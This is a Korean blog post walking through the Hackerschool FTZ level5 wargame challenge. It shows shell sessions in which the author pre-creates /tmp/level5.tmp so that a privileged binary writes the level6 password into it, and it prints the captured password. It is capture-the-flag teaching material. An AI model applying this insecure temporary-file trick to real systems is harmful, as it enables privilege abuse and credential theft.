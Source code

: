 ```yaml
---
layout: post
title: "Hackerschool FTZ-level5"
categories: [Hackerschool-FTZ]
tags: [pwnable]
redirect_from:
 - /2019/05/22/
---
```

```bash
login as: level5 
level5@~~~~'s password: 
[level5@ftz level5]$ ls 
hint  public_html  tmp 
[level5@ftz level5]$ cat hint 

/usr/bin/level5 프로그램은 /tmp 디렉토리에 
level5.tmp 라는 이름의 임시파일을 생성한다. 

이를 이용하여 level6의 권한을 얻어라.
```

level5/what is your name?으로 접속해, 바로 hint를 읽었다. 우선 level5 프로그램을 한번 실행시켜보자.


```bash
[level5@ftz tmp]$ cd /usr/bin
[level5@ftz bin]$ ./level5 
[level5@ftz bin]$
```


그러나 아무일도 일어나지 않았다.

level5 프로그램은 /tmp에 level5.tmp파일을 실행시킨다고 했으니, /tmp폴더를 확인해보자.


```bash
[level5@ftz tmp]$ ls 
mysql.sock 
[level5@ftz tmp]$
```


그러나 아무 파일도 생기지 않는다. 그렇다면 한번 생각해보자. level5.tmp라는 임시파일을 생성하고, 프로그램이 종료되기 전 자동적으로 삭제해 버리는 프로그램은 아닐까? 그렇다면 그 내용이 사라지기 전, 어떻게 가로챌 수 있을까?

혹시, 같은 이름의 파일을 만들어두면 거기에 내용이 덮어씌워지지 않을까?


```bash
[level5@ftz tmp]$ cat > level5.tmp 

[level5@ftz tmp]$ ls 
level5.tmp mysql.sock 
[level5@ftz tmp]$
```


cat > (만들 파일이름) 명령어로 우리가 임시로 level5.tmp라는 이름의 파일을 만들어두자. 그리고, level5 프로그램을 실행시켜보자.


```bash
[level5@ftz tmp]$ cd /usr/bin 
[level5@ftz bin]$ ./level5 
[level5@ftz bin]$ cd /tmp 
[level5@ftz tmp]$ ls 
level5.tmp mysql.sock 
[level5@ftz tmp]$ cat level5.tmp 
next password : what the hell 
[level5@ftz tmp]$
```


추측이 맞았다. 우리가 만들어 둔 level5.tmp파일에 값을 복사해 둔 채로 프로그램이 종료된 덕에 level6의 비밀번호를 알아냈다,

level6's password:"what the hell"